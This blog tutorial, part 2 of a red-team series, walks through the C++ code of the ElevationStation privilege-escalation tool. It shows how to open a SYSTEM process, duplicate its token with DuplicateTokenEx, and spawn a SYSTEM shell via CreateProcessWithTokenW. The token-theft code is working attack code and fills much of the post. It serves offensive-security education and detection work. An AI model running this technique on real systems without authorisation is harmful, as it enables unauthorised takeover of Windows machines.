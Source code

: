 ```yaml
---
title:  "ElevationStation - A walk through the development process [PART 2]"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hello again Infosec enthusiasts! Last time we talked, we discussed enabling token privileges for our current process so we can remotely access other processes via the SeDebug privilege. Let's continue on through the code shall we 😃

For review, we are here in the code:
```cpp
int DupProcessToken(DWORD pid)
{
    //enable ALL necessary privs!!!
   ➡️ setProcessPrivs(SE_DEBUG_NAME); ⬅️
    //priv enable routine complete
    BOOL bRet;
```
So we've successfully set our process privileges.  Now, let's steal the `SYSTEM` token we desire from our target process shall we?  To do so, we first need to open the remote process and get a handle on the remote process token.  Interestingly and favourably for us, we can open a remote `SYSTEM` process using the lowest level of desired access permitted, `PROCESS_QUERY_LIMITED_INFORMATION`, like so:
```cpp
proc2 = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
    if (!proc2)
    {
        Color(14);
        printf("[!] There was a permissions error opening process: %d w/ requested access...: %d\n", pid, GetLastError());
        Color(7);
        exit(0);
    }

    if (!OpenProcessToken(proc2, MAXIMUM_ALLOWED, &tok2))
    {
        Color(14);
        printf("[!] There was a permissions error applying the requested access to the token: %d\n", GetLastError());
        Color(7);
        exit(0);
    }
  ```
Next, we duplicate the token aquired in our token HANDLE and now we have an exact replica of the `SYSTEM` process token with all it's glorious privileges!
```cpp
if (!DuplicateTokenEx(tok2, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx failed. Error: %d\n", GetLastError());
        Color(7);
    }
    else
    {
        Color(2);
        printf("[+] DuplicateTokenEx success!!!\n");
        Color(7);
    }
```

`BEFORE` Duplicating Token:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/c05126fe-33e9-4709-82b3-7a5c4001f1f5)

and `AFTER` duplicating the token.  Notice a strikingly noteworthy difference? 😸
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5698a405-fd3a-4343-bfdc-b7630989a2f2)
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2ef7009a-27a4-48c9-985f-57a4797d80c6)

Our `elevationstation.exe` process now **OWNS** a primary token with `SYSTEM` privileges, successfully duplicating the remote `SYSTEM` level process!  Now the moment you have all been waiting for... it's finally time to pop a SYSTEM shell!


```cpp
bRet = CreateProcessWithTokenW(hNewToken, NULL, NULL, wszProcessName, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessWithToken didn't cooperate...permissions maybe???\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessWithToken worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);
    }
    CloseHandle(hNewToken);
    CloseHandle(proc2);
    CloseHandle(tok2);
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f7733753-d908-4409-a7df-2edb94adb49f)

And there you have it friends.  This concludes part 2 of our series explaining ElevationStation and the code behind how it works.  This portion of the series has only explained stealing primary tokens from a process. Next time, I'll walk you through stealing a remote process impersonation `THREAD` token and "converting" it to a primary token to gain a SYSTEM shell within your current shell, avoiding the headache of having to deal with CreateProcessWithToken's limitations 😆

bye!
